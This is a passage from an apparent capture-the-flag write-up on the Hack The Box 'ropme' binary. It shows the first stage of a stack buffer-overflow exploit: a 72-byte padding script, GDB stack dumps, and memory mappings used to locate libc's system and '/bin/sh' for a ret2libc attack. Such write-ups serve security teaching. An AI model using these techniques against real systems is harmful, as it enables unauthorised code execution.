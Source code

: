 
### Exploiting the binary locally
Before I worry myself about the remote machine and ASLR and glibc version; I try to see if I can utilize the buffer overflow locally. I usually start by manipulating the data *manually* in GDB, then formulate a payload using a Python script.

I start with a simple python script that fills the buffer (of size 64 if we recall), and overrides the frame pointer (the old EBP, of size 8 bytes because this binary is x64). So we need `64+8=72` bytes to fill the buffer and then we will be able to override the return address on the stack. Let's try!

```Python
PAD = "A" * 72

print PAD
```

Feeding this input to the binary our stack looks like this
```
gdb-peda$ x/32gx $rsp
0x7fffffffdef0:	0x00007fffffffe028	0x0000000100f0b5ff
0x7fffffffdf00:	0x4141414141414141	0x4141414141414141
0x7fffffffdf10:	0x4141414141414141	0x4141414141414141
0x7fffffffdf20:	0x4141414141414141	0x4141414141414141
0x7fffffffdf30:	0x4141414141414141	0x4141414141414141
0x7fffffffdf40:	0x4141414141414141	0x00007ffff7a0000a
0x7fffffffdf50:	0x0000000000000000	0x00007fffffffe028
0x7fffffffdf60:	0x0000000100000000	0x0000000000400626
0x7fffffffdf70:	0x0000000000000000	0xb9494950d49272fd
0x7fffffffdf80:	0x0000000000400530	0x00007fffffffe020
0x7fffffffdf90:	0x0000000000000000	0x0000000000000000
0x7fffffffdfa0:	0x46b6b62f66d272fd	0x46b6a6906eec72fd
0x7fffffffdfb0:	0x00007fff00000000	0x0000000000000000
0x7fffffffdfc0:	0x0000000000000000	0x00007ffff7de5733
0x7fffffffdfd0:	0x00007ffff7dcb638	0x000000001d423c36
0x7fffffffdfe0:	0x0000000000000000	0x0000000000000000
gdb-peda$ bt
#0  0x000000000040066b in main ()
#1  0x00007ffff7a0000a in ?? () from /lib/x86_64-linux-gnu/libc.so.6
#2  0x0000000000000000 in ?? ()
gdb-peda$
```
Let's look for the `system` function location, and the `/bin/sh` string in libc, and load them

```
gdb-peda$ info proc mappings
process 15772
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
            0x400000           0x401000     0x1000        0x0 /media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme/ropme
            0x600000           0x601000     0x1000        0x0 /media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme/ropme
            0x601000           0x602000     0x1000     0x1000 /media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme/ropme
            0x602000           0x623000    0x21000        0x0 [heap]
      0x7ffff79e4000     0x7ffff7bcb000   0x1e7000        0x0 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7bcb000     0x7ffff7dcb000   0x200000   0x1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7dcb000     0x7ffff7dcf000     0x4000   0x1e7000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7dcf000     0x7ffff7dd1000     0x2000   0x1eb000 /lib/x86_64-linux-gnu/libc-2.27.so
      0x7ffff7dd1000     0x7ffff7dd5000     0x4000        0x0
      0x7ffff7dd5000     0x7ffff7dfc000    0x27000        0x0 /lib/x86_64-linux-gnu/ld-2.27.so
      0x7ffff7fe0000     0x7ffff7fe2000     0x2000        0x0
      0x7ffff7ff7000     0x7ffff7ffa000     0x3000        0x0 [vvar]
      0x7ffff7ffa000     0x7ffff7ffc000     0x2000        0x0 [vdso]
```

[1]: https://linux.die.net/man/3/puts
[2]: https://linux.die.net/man/3/fflush
[3]: https://linux.die.net/man/3/fgets
[4]: https://libc.blukat.me